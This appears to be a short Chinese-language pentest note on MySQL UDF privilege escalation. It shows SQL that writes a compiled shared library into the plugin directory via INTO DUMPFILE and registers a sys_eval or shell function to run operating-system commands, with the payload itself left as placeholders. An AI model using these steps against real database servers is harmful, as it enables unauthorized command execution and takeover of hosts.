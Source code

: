 # MySQL UDF 提权

> 尝试UDF提权之前，先确保MySQL有读写文件的权限

```SQL
SHOW VARIABLES LIKE 'sec%';
# or
SELECT @@secure_file_priv;
```
如果查询到 secure_file_priv 的值为NULL，则不可以读写文件

### Linux

> https://github.com/mysqludf/lib_mysqludf_sys

编译语句

> gcc -DMYSQL_DYNAMIC_PLUGIN -fPIC -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so

udf.so.txt 是自己的编译的

udf2.so.txt 来自网友编译

> 使用方法

首先通过SQL语句查询到MySQL的plugin位置，如：/usr/lib64/mysql/plugin/

```SQL
SHOW VARIABLES LIKE '%plugin%';
#或者
SELECT @@plugin_dir;
```

然后写UDF到插件目录、创建函数、执行命令

```SQL

SELECT unhex(' [udf.so.txt]|[udf2.so.txt] ') INTO DUMPFILE "/usr/lib64/mysql/plugin/udf.so"; #写入udf.so

DROP FUNCTION sys_eval; # 如果存在函数先drop掉

CREATE FUNCTION sys_eval RETURNS string SONAME 'udf.so'; # 创建函数

SELECT sys_eval ('whoami'); # 执行命令

```


### Windows

方法与上面类似，可以使用tools的UDF提权脚本，或者上传dll文件，命令执行函数名为 shell

使用方法：

```SQL

SELECT shell('cmd','whoami');

```
